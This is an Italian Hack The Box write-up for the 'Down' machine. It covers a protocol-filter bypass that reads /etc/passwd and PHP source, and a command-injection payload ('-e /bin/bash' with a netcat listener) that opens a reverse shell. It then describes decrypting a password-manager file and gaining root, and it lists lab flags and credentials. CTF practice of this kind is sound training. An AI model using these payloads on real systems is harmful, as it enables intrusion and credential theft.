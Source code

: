 # 🧩 Down – CTF Hack The Box 

## Introduzione

In questa macchina ho affrontato una vulnerabilità LFI (Local File Inclusion) con filtro sui protocolli, ho ottenuto una reverse shell tramite command injection, e infine trovando la password per loggarmi ssh ho trovato la root flag. Ecco tutti i passaggi che ho seguito:

---

## 1️⃣ How many open TCP ports are listening on Down?

Ho eseguito una scansione Nmap per trovare le porte aperte:

nmap -sC -sS IP_TARGET

Dalla scansione risultano **2 porte TCP aperte**

---

## 2️⃣ What is the User Agent string used in HTTP requests made by the web application?

Ho avviato un listener sulla mia macchina:

nc -lvnp 8000


Poi ho inserito l’URL del mio listener nel form del sito (http://mio_ip_tun0:porta_nc), dalla connessione in ingresso successivamente ho visto che la User Agent era:

curl/7.81.0


---

## 3️⃣ The web application only accepts two protocols in user-provided URLs. One is HTTP. What is the other?

Testando con BurpSuite, ho provato a inviare URL con protocolli alternativi, ma la risposta del server è chiara: "Only protocols http or https allowed". Quindi è confermato che accetta solo HTTP e HTTPS, bloccando tutto il resto.

---

## 4️⃣ What is the username with id 1000 on Down?

Ho analizzato la richiesta POST a /index.php con BurpSuite. Il parametro url permette di inviare un link, che il backend tenta di raggiungere. Dopo diversi tentativi di bypass, come:

    file%3A%2F%2F%2Fetc%2Fpasswd → bloccato dal filtro

    http://test@file:///etc/passwd → filtrato

    http://127.0.0.1#file:///etc/passwd → interessante, perché il contenuto dopo # veniva visualizzato nella risposta

A questo punto ho provato a sfruttare un multi-URL injection con:

http://127.0.0.1%20file:///etc/passwd

E ha funzionato: sono riuscito a bypassare il filtro e il backend ha caricato correttamente il contenuto di /etc/passwd, da cui ho ricavato:

aleks:x:1000:1000:Aleks:/home/aleks:/bin/bash

Quindi lo username è: **Aleks**

---

## 5️⃣ What is the name of the HTTP GET parameter that changes the site's functionality?

Ho sfruttato la stessa tecnica per leggere il file `index.php`:

http://127.0.0.1%20file:///var/www/html/index.php


Nel codice PHP ho trovato questo parametro:

$_GET['expertmode']

Quindi il parametro è: expertmode

---

## 6️⃣ Submit the flag located in the www-data user's home directory. Exploit the expert mode application to get a shell.

Ho visitato la pagina:

http://10.129.232.247/index.php?expertmode=tcp


Nel frattempo ho aperto un listener Netcat:

nc -lvnp 4444


Poi ho manipolato la richiesta in BurpSuite, modificando i parametri ip e port fino a trovare il payload giusto:

ip=ip_mio_tun0&port=porta_nc+-e+/bin/bash


Questo mi ha dato una shell. Con whoami ho successivamente ottenuto: www-data

---

## 7️⃣ Submit the flag located in the www-data user's home directory.

Con la shell attiva, ho eseguito:

ls

index.php
logo.png
style.css
user_aeT1xa.txt


Ho letto il file con:

cat user_aeT1xa.txt

Ottenendo la user flag: d4bc94b386ef7c8113698a8c4951cacd

---

## 8️⃣ What is the full path of the file owned by aleks that contains encrypted passwords?

Navigando nella home di aleks, ho trovato:

/home/aleks/.local/share/pswm/pswm


---

## 9️⃣ What python module does pwsm use to encrypt/decrypt data?

Cercando il progetto pswm su GitHub ho scoperto che utilizza il modulo:
(fonte: https://github.com/Julynx/pswm/blob/main/pswm)

cryptocode


---

## 🔟 What is the aleks user's pwsm master password?

Ho scritto uno script in Python usando cryptocode per decriptare il file .pswm. Sono riuscito a recuperare:

- **Password:** flower
- **SSH Password:** 1uY3w22uc-Wr{xNHR~+E

---

## 🔐 Root Flag

Mi sono connesso via SSH con le credenziali trovate. Una volta ottenuto accesso come aleks, sono entrato come root e successivamente ho trovato la flag finale:

cat /root/root.txt
87bb9869a311b8abb5fb4d3c7248fdcb


## Conclusione

Una macchina davvero interessante. Il bypass del filtro protocolli tramite double URL e encoding è stato molto istruttivo. Ho messo in pratica tecniche web, reverse shell, decodifica, e privilege escalation. Ottimo allenamento completo da cima a fondo!

